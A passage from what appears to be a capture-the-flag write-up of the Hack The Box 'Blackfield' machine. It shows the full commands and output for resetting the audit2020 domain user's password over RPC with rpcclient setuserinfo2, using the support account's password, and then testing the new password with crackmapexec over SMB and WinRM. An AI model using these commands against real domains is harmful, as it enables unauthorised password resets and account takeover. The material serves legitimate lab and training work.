 ### Password Reset over RPC

There’s a somewhat famous post by Mubix about [resetting Windows passwords over RPC](https://room362.com/post/2017/reset-ad-user-password-with-linux/). I’ll use the command `setuserinfo2`:

```

rpcclient $> setuserinfo2
Usage: setuserinfo2 username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER

```

The blog says to use 23 as the level.

If I reset with something that doesn’t match the password policy, it complains:

```

rpcclient $> setuserinfo2 audit2020 23 '0xdf'
result: NT_STATUS_PASSWORD_RESTRICTION
result was NT_STATUS_PASSWORD_RESTRICTION

```

If it succeeds, silence in return:

```

rpcclient $> setuserinfo2 audit2020 23 '0xdf!!!'

```

In case I want to just do this from the command line, it can be run as:

```

root@kali# rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192 -c 'setuserinfo2 audit2020 23 "0xdf!!!"'

```

### Check Creds

On changing the creds, I can now authenticate as audit2020:

```

root@kali# crackmapexec smb 10.10.10.192 -u audit2020 -p '0xdf!!!'
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:0xdf!!! 

```

Still no WinRM:

```

root@kali# crackmapexec winrm 10.10.10.192 -u audit2020 -p '0xdf!!!'
WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD\audit2020:0xdf!!! "Failed to authenticate the user audit2020 with ntlm"

```
